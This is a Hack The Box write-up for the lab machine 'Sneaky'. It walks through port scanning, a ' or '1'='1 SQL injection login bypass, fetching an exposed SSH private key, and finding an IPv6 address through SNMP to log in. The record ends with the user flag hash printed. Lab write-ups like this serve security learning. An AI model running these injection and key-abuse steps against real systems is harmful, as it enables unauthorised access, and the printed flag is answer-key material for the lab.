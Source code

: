 # Sneaky
#### 10.10.10.20

```{r, engine='bash', count_lines}
nmap 10.10.10.20

PORT   STATE SERVICE
80/tcp open  http
```

The website shows that its under construction

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Under-Construction.PNG)


Dirbuster Initiate!

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Dirbuster.PNG)

Well ofcourse, its under **dev**elopment

We are greeted by a Login screen

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Login.PNG)


Whats the autoresponse when we see a poorly made login page ?

Yes **' or '1' = '1**

Simple sql injection. Seems legit

After the login we get sjuicy stuff
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Sneaky/images/Post-Login.PNG)

Lets make a note of the info:

- name: admin
- name: thrasvilous
- RSA Private key
- We are No-one

Lets wget the RSA key

And because its a Private SSH key, we change its perms

```
root@kali:~/Hackthebox/Sneaky# wget http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
--2017-11-07 17:24:48--  http://10.10.10.20/dev/sshkeyforadministratordifficulttimes
Connecting to 10.10.10.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘sshkeyforadministratordifficulttimes’

sshkeyforadministratordifficulttimes  100%[=======================================================================>]   1.64K  --.-KB/s    in 0s      

2017-11-07 17:24:48 (120 MB/s) - ‘sshkeyforadministratordifficulttimes’ saved [1675/1675]

root@kali:~/Hackthebox/Sneaky# mv sshkeyforadministratordifficulttimes adminssh.key

root@kali:~/Hackthebox/Sneaky# chmod 600 adminssh.key 

```

**BUT!!!**

We dont have a port 22 (ssh) open on this box. Maybe it was setup on a different port.

Lets nmap all the ports 

After spending millions of years completing the nmap we see that there is no other port open.

![Alt test](https://media.giphy.com/media/l46CbAuxFk2Cz0s2A/giphy.gif)


Hold up! we found something else though

Port 161

Investigate Further

We get shit tons of info

```
nmap -sS -sU -p 161 -T4 -A 10.10.10.20

161/udp open   snmp    SNMPv1 server; net-snmp SNMPv3 server (public)

snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Status: up
|     Traffic stats: 129.30 Kb sent, 129.30 Kb received
|   eth0
|     IP address: 10.10.10.20  Netmask: 255.255.255.0
|     MAC address: 00:50:56:aa:35:f3 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Status: up
|_    Traffic stats: 45.08 Mb sent, 41.13 Mb received
| snmp-netstat: 
|   TCP  127.0.0.1:3306       0.0.0.0:0
|_  UDP  0.0.0.0:161          *:*


```
We are SURE that there is a ssh port open, but we cant find it here...

Maybe its ipv6

Let me check what ipv6 we get for the openvpn

```
inet 10.10.14.52  netmask 255.255.254.0  destination 10.10.14.52
inet6 dead:beef:2::1032  prefixlen 64  scopeid 0x0<global>
```

A wise gentelman from stack overflow helped us 
![Alt test](https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6/27693666#27693666)

A little bit or "Trying Harder" and knowing that our local prefix should be dead:beef we get something like this

```
dead:beef::250:56ff:feaa:35f3 (HAVE TO CHECK THIS)
```

lets try and connect to it via ssh and out key

```
root@kali:~/Hackthebox/Sneaky# ssh -6 dead:beef::250:56ff:feaa:35f3
The authenticity of host 'dead:beef::250:56ff:feaa:35f3 (dead:beef::250:56ff:feaa:35f3)' can't be established.
ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
Are you sure you want to continue connecting (yes/no)? 
```

Say Whaaaaat!!!!

Time to get rocking

We have the key, the username is thrasivoulos , lets connect

```
root@kali:~/Hackthebox/Sneaky# ssh -6 -i adminssh.key thrasivoulos@dead:beef::250:56ff:feaa:35f3
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Nov  7 14:33:29 EET 2017

  System load:  0.0               Processes:           181
  Usage of /:   9.8% of 18.58GB   Users logged in:     1
  Memory usage: 23%               IP address for eth0: 10.10.10.20
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Tue Nov  7 14:33:30 2017 from dead:beef:2::1032
thrasivoulos@Sneaky:~$ 

```

**user.txt**
```
thrasivoulos@Sneaky:~$ cat user.txt
9fe14f76222db23a770f20136751bdab
```

_Mission: Root_



**_shellz_**
